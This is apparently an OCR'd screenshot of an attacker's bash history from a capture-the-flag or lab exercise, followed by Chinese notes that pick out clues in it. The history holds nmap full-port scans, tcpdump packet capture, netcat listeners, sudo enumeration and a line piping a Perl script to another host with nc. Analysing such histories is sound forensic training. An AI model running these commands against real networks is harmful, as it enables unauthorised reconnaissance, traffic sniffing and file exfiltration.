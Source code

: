 ```bash
nc -nvlp 2020
/usr/sbin/tcpdump -i eth0 -A '' -w /var/tmp/dump.pcap
ls
exit
ls -la
nc -nvvlp 1234
exit
nmap -v -n -p- 192.168.10.2 -sV
nmap -v -n -p- 192.168.10.2 -sV -Pn
nmap -v -n -p- 192.168.10.2 -sV -Pn -T4
/usr/sbin/tcpdump 'src 192.168.10.2'
/usr/sbin/tcpdump 'src 192.168.10.2 || dst 192.168.10.2'
/usr/sbin/tcpdump 'src 192.168.10.5 || dst 192.168.10.5'
telnet 192.168.11.5
telnet 192.168.11.5 25
nc -nvlp 2020
sudo -l
ncat -klvp 8888
cd /dev/shm
cat ngxbrt.pl | nc 172.16.0.16 10100
ncat -klvp 8888
sudo -l
sudo tcpdump -A -i eth0 -s 1500 -c 1000 port not 22 and host not 192.168.11.1 and port not 53 and host not 92.168.56.2 and not arp and port not 123
ls
```

根据命令查找关键点：

- `/dev/shm/ngxbrt.pl`不存在
- `/usr/sbin/tcpdump -i eth0 -A '' -w /var/tmp/dump.pcap`中的`/var/tmp/dump.pcap`存在，可以分析
- `nc -nvlp 2020`，和之前`192.168.12.2`中的todo.txt内容有相似之处
